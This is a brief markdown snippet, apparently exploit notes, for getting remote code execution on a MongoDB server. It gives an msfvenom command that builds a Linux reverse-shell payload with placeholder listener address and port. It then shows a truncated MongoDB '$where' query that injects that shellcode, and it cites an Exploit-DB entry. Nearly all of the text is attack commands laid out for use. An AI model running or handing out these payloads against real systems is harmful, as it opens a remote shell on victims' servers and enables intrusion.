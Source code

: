### create payload
```
msfvenom -p linux/x86/shell_reverse_tcp lhost=<lhost> lport=<lport> -f js_le -e generic/none
```

### insert payload into exploit:
```
db.my_collection.find({'$where':'shellcode=unescape("<payload>"); sizechunk=...
```

### References
https://www.exploit-db.com/exploits/24947  

